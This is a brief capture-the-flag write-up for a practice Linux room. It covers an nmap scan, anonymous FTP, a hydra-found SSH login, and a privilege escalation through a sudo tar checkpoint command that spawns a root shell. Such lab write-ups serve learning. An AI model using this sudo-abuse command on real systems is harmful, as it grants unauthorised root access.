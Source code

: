# Easy room to practice basic enumeration and privilege escalation in linux

## Nmap scan found the following ports

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
```
## FTP allows anonymous login

```
found locks.txt & task.txt files in FTP directory
```

## Found login and password to ssh using hydra

```
user: ***
password: *******************

```
## Found flag1: `THM{*****_*********}`

##Using sudo -l found that user can run tar as sudo 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
opens a shell as root and then found root flag under/root/root.txt

## Found flag2:`THM{******_******}`
